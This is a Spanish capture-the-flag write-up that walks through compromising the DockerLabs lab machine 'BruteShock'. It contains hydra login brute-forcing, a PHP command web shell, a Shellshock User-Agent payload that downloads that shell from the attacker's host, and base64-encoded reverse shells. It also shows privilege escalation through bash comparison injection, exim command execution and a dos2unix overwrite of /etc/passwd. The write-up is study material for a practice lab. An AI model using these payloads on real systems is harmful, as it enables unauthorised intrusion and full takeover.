










Hoy resolveremos la máquina "BruteShock" de [DockerLabs](https://dockerlabs.es)

Autor: [Darksblack & maciiii___(yo)](https://linktr.ee/maciiii___)

Dificultad: Medio



# RECONOCIMIENTO

Comenzamos con un escaneo de `nmap`

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sat Nov  2 15:15:00 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-11-02 15:15:01 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  2 15:15:09 2024 -- 1 IP address (1 host up) scanned in 8.36 seconds
```

En este caso solo el puerto 80 está abierto y corre `Apache httpd 2.4.62`.

Vamos a la web y no encontramos con lo siguiente:



Como vemos tenemos un panel de login, y si probamos las credenciales básicas no no sirve, por lo que recurrimos a `hydra`, pero primero revisamos si tenemos cookies:



al parecer tenemos una, por la que también se la pasaremos a `hydra` para que haga el ataque:
Formato:

```css
hydra -l <user> -P <wordlist> <ip> http-post-form "/index.php:username=^USER^&password=^PASS^:H=Cookie: <nombre de la cookie>=<cookie>:F=<mensaje de error>" -V
```

Aplicado:

```css
hydra -l admin -P /opt/rockyou.txt 172.17.0.2 http-post-form "/index.php:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=4iulq1ru3emdckdsoipiuq413m:F=Credenciales incorrectas." -V
```


Ingresamos las credenciales y vemos la siguiente página:



De primeras parece un pishing pero no lo es, si probamos a ingresar algo no pasa nada interesante, pero en el mensaje dice "User-Agent almacenado en el log". Luego de buscar de que puede tratar ([info](https://blog.cloudflare.com/inside-shellshock/)) intento aprovecharlo. Para esto abro burpsuite y pruebo lo siguiente:

1. Inicio un servidor con python:

   ```css
   python3 -m http.server 8000
   ```

2. Creo un archivo php que me permita ejecutar comandos al subirlo:

   ```php
   <!DOCTYPE html>
   <html>
   <body>
   <form method="GET">
       <input type="text" name="cmd" placeholder="command">
       <button type="submit">Ejecutar</button>
   </form>
   <pre>
   <?php
   if (isset($_GET['cmd'])) {
       system($_GET['cmd']);
   }
   ?>
   </pre>
   </body>
   </html>
   ```

   

3. Capturo la petición al entrar a la página y lo envío al repeater(ctrl+r):

   

4. Cambio el user-agent por lo siguiente:

   ```css
   () { :; }; curl 172.17.0.1:8000/cmd.php -o cmd.php
   ```

   

Una vez ejecutado veremos esto:



ahora que la shell se guardó, entramos por el navegador y veremos una página para ejecutar comandos:



ya podemos ejecutar comandos en la máquina victima.

# INTRUSIÓN

Para enviarnos una reverse shell no lo podemos hacer con la típica shell de bash, ya que al parecer la máquina las bloquea, por lo que usaremos la página [revshells](https://revshells.com) y usaremos la de `php exec`, escuchamos en el puerto 443 con netcat (`sudo nc -lvnp 443`) y la enviamos por la web en base64 de la siguiente manera:

```css
echo "cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE3Mi4xNy4wLjEiLDQ0Myk7ZXhlYygiYmFzaCA8JjMgPiYzIDI+JjMiKTsn" | base64 -d | bash
```

Una vez enviado habremos ganado acceso.

# ESCALADA DE PRIVILEGIOS

### www-data

Para hacer el tratamiento de la tty es un poco distinto, deberemos hacer lo siguiente:

```bash
export SHELL=bash
export TERM=xterm
script /dev/null -c bash
^Z

stty raw -echo; fg
reset xterm
```

Ahora si revisamos los usuarios en la máquina, veremos 3:

`darksblack`

`maci`

`pepe`

Si buscamos cada archivo por cada usuario veremos lo siguiente:

```css
find / -user "darksblack" 2>/dev/null
```

```css
/home/darksblack
/var/backups/darksblack
/var/backups/darksblack/.darksblack.txt
```

Como vemos tenemos un txt el cual si lo leemos es el hash del shadow para el usuario darksblack, por lo que utilizaremos este metodo para crackear la contraseña: [Cracking a shadow password using john the ripper](https://www.mohammedalani.com/tutorials/cracking-a-shadow-password-using-john-the-ripper/)

Una vez completado todos los pasos obtendremos la siguiente contraseña:



Por lo que escalamos con `su darksblack` e introducimos sus credenciales.

### Darksblack

Si ejecutamos `sudo -l` veremos que podemos ejecutar como el usuario "maci" un script que se encuentra en su home (por lo que no lo podremos leer), así que lo ejecutamos y vemos que pasa:



Al parecer tenemos que adivinar un numero, este script puede que use un `eq comparer` de bash para verificar si nuestra entrada es correcta, por lo que si el script usó doble corchete para hacerlo, podremos inyectar un comando y escalar, para hacerlo escribiremos lo siguiente en la adivinanza:

```css
a[$(/bin/bash >&2)]+42
```

[Mas Info](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/)

### Maci

Ahora al ejecutar `sudo -l`, veremos que podemos ejecutar el binario `exim` como el usuario pepe, si investigamos de como escalar encontraremos exploits, pero no son útiles en este caso, ya que exim nos permite ejecutar comandos de la siguiente manera:

```css
exim -be 'x=${run{/bin/id}}'
```

Por lo que si lo ejecutamos con sudo como el usuario pepe, estaríamos ejecutando comandos como ese usuario. Para poder escalar no podemos hacerlo con ejecutar "/bin/bash" o "/bin/bash -p", ya que exim no nos dejará hacerlo, la manera correcta es crear un script en "/tmp/" y que contenga la misma shell de php que usamos para entrar solo que dirigida a otro puerto, la manera simple es esta:

1. Escuchamos con netcat en el puerto 4444

2. Luego ejecutamos lo siguiente:

   ```css
   echo '#!/bin/bash' > /tmp/script && echo "echo 'cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE3Mi4xNy4wLjEiLDQ0NDQpO2V4ZWMoImJhc2ggPCYzID4mMyAyPiYzIik7Jw==' | base64 -d | bash" >> /tmp/script && chmod +x /tmp/script && sudo -u pepe exim -be 'x=${run{/tmp/script}}'
   ```

   

en resumen el comando crea el script y lo ejecuta como pepe. Una vez ejecutado habremos recibido una shell como el usuario pepe.

### Pepe

Ahora al ejecutar `sudo -l` veremos que podemos ejecutar el binario `dos2unix` como root, por lo que para escalar deberemos hacer lo siguiente:

1. Creamos un archivo en `/tmp/` llamado passwd con el contenido de `/etc/passwd` solo que eliminando la "x" de root, una vez creado ejecutamos lo siguiente:

   ```css
   passwd1=/tmp/passwd
   passwd2=/etc/passwd
   ```

   

2. Ejecutamos `dos2unix` de la siguiente manera:

   ```css
   sudo dos2unix -f -n "$passwd1" "$passwd2"
   ```

   

### Root

Escalamos a root ejecutando `su`.



Gracias por leer.....